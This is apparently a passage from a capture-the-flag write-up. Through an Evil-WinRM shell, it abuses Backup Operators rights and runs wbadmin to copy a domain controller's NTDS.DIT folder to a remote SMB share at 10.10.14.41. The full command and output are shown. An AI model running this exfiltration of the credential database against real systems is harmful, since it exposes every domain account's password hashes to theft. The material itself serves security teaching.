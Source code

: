 "Members of “Backup Operators” can logon locally on a Domain Controller and
backup the NTDS.DIT, for ex. with: “wbadmin.exe” or “diskshadow.exe”"



<u>**Shadow backup using  Wbadmin (failed attempt):**</u>

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin start backup -backuptarget:\\10.10.14.41\share  -include:c:\windows\ntds -quiet -nonRecurseExclude:c:\windows
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.


Note: The backed up data cannot be securely protected at this destination.
Backups stored on a remote shared folder might be accessible by other
people on the network. You should only save your backups to a location
where you trust the other users who have access to the location or on a
network that has additional security precautions in place.

Retrieving volume information...
This will back up (C:) (Selected Files) to \\10.10.14.41\share.
The backup operation to \\10.10.14.41\share is starting.
Creating a shadow copy of the volumes specified for backup...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Creating a shadow copy of the volumes specified for backup...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Creating a shadow copy of the volumes specified for backup...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Windows Server Backup is updating the existing backup to remove files that have
been deleted from your server since the last backup.
This might take a few minutes.
Scanning the file system...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Found (10) files.
Scanning the file system...
Found (10) files.
Scanning the file system...
Found (10) files.
Scanning the file system...
Found (10) files.
Creating a backup of volume (C:), copied (0%).
Creating a backup of volume (C:), copied (100%).
Creating a backup of volume (C:), copied (100%).
Summary of the backup operation:
------------------

The backup operation successfully completed.
The backup of volume (C:) completed successfully.
Log of files successfully backed up:
C:\Windows\Logs\WindowsServerBackup\Backup-12-06-2020_07-26-46.log

```
